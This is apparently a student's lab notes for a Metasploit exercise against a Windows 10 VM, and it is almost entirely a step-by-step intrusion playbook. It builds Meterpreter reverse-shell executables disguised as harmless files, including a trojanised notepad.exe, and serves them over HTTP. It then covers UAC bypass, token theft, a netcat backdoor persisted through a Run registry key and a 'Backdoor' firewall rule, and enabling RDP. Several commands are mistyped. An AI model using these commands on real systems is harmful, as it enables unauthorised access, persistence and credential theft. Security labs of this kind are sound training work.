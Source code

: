 1. mkdir ~/viruses
2. systemclt start apache2
3. Win10 -> Mitnick -> navigate to 192.168.229.30
4. msvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST==192.168.229.30 LPORT=443 -e x64/xor -i 3 -f exe -o ./viruses/totallynotaviruse.ext
5. cp ./viruses/totallynotaviruse.exe /var/www/html/totalynotaviruse.exe
6. msfconsole -x "use exploit/multi/handler; set payload windows/x64/reverse_tcp; set LHOST 192.168.229.30; set LPORT 443; run"
7. win10 - execute 192.168.229.30/totalynotaviruse.exe
8. meterrpeter > getuid
9. getpid -> look for explorer
10. migrate to `explorer PID`
11. background
12. use exploit/windows/local/bypassuac_injection_winsxs
13. set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.229.30
14. set LPORT 444
15. show targets
16. set target 1
17. set session 1
18. run
19. getuid
20. getsystem
21. getuid
22. netstat
23. load incognio
24. list_tokens -u
25. steal_token Administrator
26. impersonate_token Desktop-Name/Administrator
27. background
28. find / -name nc.exe
29. sessions 2
30. pwd
31. upload /usr/share/windows-biniaries/nc.exe
32. reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run\\ - v vmware -d "nc -lu dp 445 - e cmd.exe"
33. Enter a windows command shell and add a firewall rule named “backdoor” to allow inbound traffic on TCP port 445 for your persistent netcat connection. What command syntax was used? `shell -> netsh advfirewall firewall add rule name="Backdoor" dir=in action=allow protocol=UDP localport=445`
34. Reboot your Windows 10 VM, then return to your Kali VM and open a new terminal window. Connect to the Windows 10 netcat listener. What command syntax was used? `nc 192.168.229.19 -u 445 -> cmd`
35. What Windows 10 account is your shell running under? `whoami -> desktop\Administrator`
36. From your Meterpreter session, enable remote desktop protocol on the Windows 10 target. What command syntax was used? `run post/windows/manage/enable_rdp -> Run getgui -u <username> -p <password>`
37. In a new terminal window, connect to the Windows 10 target via remote desktop. What command syntax was used `rdesktop -u administrator -p P@ssw0rd 192.168.229.19`
38. reg setval -l hklm\\system\\currentcontrolset\\control\\'Termainal Server'\\winstations\rdp-cp -v UserAuthentication -d 0
39. Run the clean-up command to remove the remote desktop credentials you previously injected. Does your user still exist on the Windows 10 target? `run multi_console_command -r /root/.msf4/logs/scripts/getgui/clean_up_<date>.rc`
40. Load the mimikatz extension and attempt to gather the single sign on credentials from the Windows 10 target. What module was used? ``
41. Using Meterpreter, download notepad.exe to your Kali VM. How large, in bytes, is notepad.exe on the Windows 10 VM? `file notepad.exe` `msvenom -a x64 - --platform=windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.229.30 LPORT=443 -x ./notepad.exe -k -e x64/xor -i 3 -f exe -o ./viruses/notepad.exe`
42. Prepare a listener on the Kali VM and from the Windows 10 VM open notepad. On your Kali VM, what account is your Meterpreter shell under? `getuid`
Escalate your privilege to system level and load the sniffer extension. `load sniffer`
43. Begin a packet capture on the Windows 10 target’s network interface that Meterpreter is using. What command syntax was used? `sniffer_start 5` -> `sniffer_stop 5` -> `sniffer_dump 5 123.pcap`
44. Check the statistics of the current packet capture. What two fields are shown?